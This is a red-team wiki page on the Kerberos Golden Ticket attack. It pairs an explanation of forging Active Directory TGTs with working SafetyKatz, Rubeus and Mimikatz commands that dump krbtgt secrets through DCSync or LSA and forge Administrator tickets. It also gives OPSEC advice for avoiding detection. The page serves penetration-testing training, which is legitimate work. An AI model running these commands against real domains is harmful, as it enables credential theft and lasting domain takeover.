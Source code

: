 # Golden Ticket

Golden Tickets are **forged Kerberos Ticket Granting Tickets (TGTs)** created using the NTLM hash or AES keys of the `krbtgt` account—an account responsible for signing all TGTs in an Active Directory (AD) domain. With this secret, attackers can generate valid TGTs for any user, including Domain Admins, effectively enabling **full domain impersonation**. Unlike Silver Tickets, which target service tickets, Golden Tickets provide domain-wide access and persistence.

This technique does not require domain membership, elevated privileges on the local host, or ongoing access to the domain controller (DC) after the `krbtgt` secret has been obtained. Since the `krbtgt` account password rarely changes, Golden Tickets remain a reliable and stealthy post-exploitation method even after Domain Admin credentials rotate.

<figure><img src="../../../.gitbook/assets/golden_tickets.png" alt=""><figcaption><p>The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

### OPSEC and Persistence

Golden Tickets are essentially a Kerberos-based Overpass-the-Hash. Forged TGTs are accepted by the Key Distribution Center (KDC) as valid because they're signed with the `krbtgt` secret. The only requirement is network access to the Kerberos port (88) on the DC. The attack can be performed from non-domain-joined machines.

Although DA credentials grant full access, they must follow the domain password policy and are likely to change. In contrast, the `krbtgt` account password is static by default, making Golden Tickets an ideal long-term persistence method.

Golden Ticket attacks provide red teamers with stealthy, persistent access at the domain level. They bypass typical credential hygiene defenses, work from non-domain assets, and can survive across password resets—unless the `krbtgt` password is rotated. For long-term access and minimal detection, prefer **AES keys over NTLM** and **use DCSync** to reduce footprint on DCs.

## Tools

{% tabs %}
{% tab title="krbtgt creds" %}
Create a session in the context of the compromised DA with [SafetyKatz](../ad-tools/safetykatz.md) or [Rubeus](../ad-tools/rubeus.md):

{% code overflow="wrap" %}
```powershell
# Overpass-the-Hash with SafetyKatz
.\SafetyKatz.exe "privilege::debug" "sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"

# Overpass-the-Hash with Rubeus
.\Rubeus.exe asktgt /user:svcadmin /aes256:<aes256key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

Next, there are two common ways to extract `krbtgt` credentials:

{% hint style="warning" %}
**OPSEC**: The DCSync method is preferred as it extracts both the AES256 key and NT hash and it does not touch the DC. The local dump method extracts just the NTLM hash and executes code on the DC.
{% endhint %}

```powershell
# DCSync (preferred, no code execution on the DC)
.\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt"

# Local dump on a DC (requires code execution)
.\SafetyKatz.exe '"lsadump::lsa /patch"'
```
{% endtab %}

{% tab title="GT Attack" %}
Previous tickets can be purged before executing the GT attack:

```powershell
# Delete any existing Kerberos tickets
.\mimikatz.exe "kerberos::purge" "exit"
```

[Rubeus](../ad-tools/rubeus.md) can be used to generate the GT-forging command from a non-elevated shell. The below command makes three queries to the DC to retrieve the following information:

1. Flags for the specified user
2. `/groups`, `/pgid`, `/minpassage` and `/maxpassage`
3. `/netbios` of the current domain

{% hint style="warning" %}
**OPSEC**:&#x20;

* Target an active DA account and not just the default account; the latter may be dormant or act as a honeypot.
* Key parameters (SID, groups, UAC flags, etc.) can be pulled dynamically or specified manually for better stealth.
{% endhint %}

{% code overflow="wrap" %}
```powershell
# Generate the ticket-forging command
.\Rubeus.exe golden /aes256:<aes256-key> /sid:<domain-SID> /ldap /user:Administrator /printcmd
```
{% endcode %}

Generate the Golden Ticket impersonating the target user:

{% code overflow="wrap" %}
```powershell
# GT attack with Rubeus
C:\AD\Tools\Rubeus.exe golden
/aes256:<aes256key>
8 /user:Administrator /id:500 /pgid:513
/domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-
3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1
/logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORPDC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD
/ptt

# GT attack with Mimikatz
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<domain-SID> /krbtgt:<NThash> /ptt" "misc::cmd" "exit"
```
{% endcode %}

| `/aes256:<key>`           | AES256 key of the `krbtgt` account used to sign the forged TGT.                                 |
| ------------------------- | ----------------------------------------------------------------------------------------------- |
| `/user:<username>`        | Target username for the forged TG.                                                              |
| `/id:<RID>`               | Relative Identifier (RID) of the user. Default is `500` for `Administrator`.                    |
| `/pgid:<GroupID>`         | Primary Group ID. Default is `513` (`Domain Users`).                                            |
| `/groups:<GIDs>`          | Comma-separated list of group IDs to include (e.g., `512` for Domain Admins, `544` for Admins). |
| `/domain:<FQDN>`          | Fully Qualified Domain Name of the target domain.                                               |
| `/sid:<Domain SID>`       | Security Identifier of the domain.                                                              |
| `/pwdlastset:<timestamp>` | Timestamp of the user's last password set event.                                                |
| `/minpassage:<days>`      | Minimum password age in days. A small value is often used for forged tickets.                   |
| `/logoncount:<count>`     | Logon count for the user.                                                                       |
| `/netbios:<NetBIOS name>` | NetBIOS name of the domain.                                                                     |
| `/dc:<DC FQDN>`           | FQDN of the Domain Controller.                                                                  |
| `/uac:<flags>`            | UserAccountControl flags.                                                                       |
| `/ptt`                    | "Pass-the-ticket" — injects the forged TGT into the current session.                            |
{% endtab %}
{% endtabs %}
